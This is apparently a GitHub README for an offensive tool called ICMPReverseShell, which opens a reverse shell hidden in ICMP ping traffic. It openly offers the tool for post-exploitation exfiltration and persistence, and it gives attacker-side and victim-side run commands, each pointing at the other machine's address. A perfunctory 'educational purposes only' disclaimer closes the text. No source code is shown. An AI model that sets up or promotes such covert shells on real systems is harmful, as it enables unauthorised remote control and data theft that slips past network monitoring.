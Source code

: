 # ICMPReverseShell

Reverse shell over icmp, this could be used as part of post-exploitation exfihiltration and persistance, to mask traffic as simple pings.


# Usage
attacker: sudo python3 server.py -i {interface} -d {victim address}

victim: sudo python3 client.py -i {interface} -d {attacker address}


# Disclaimer

This is for educational purposes only blah blah please use this tool responsibly, I am not responsible for how you use it.

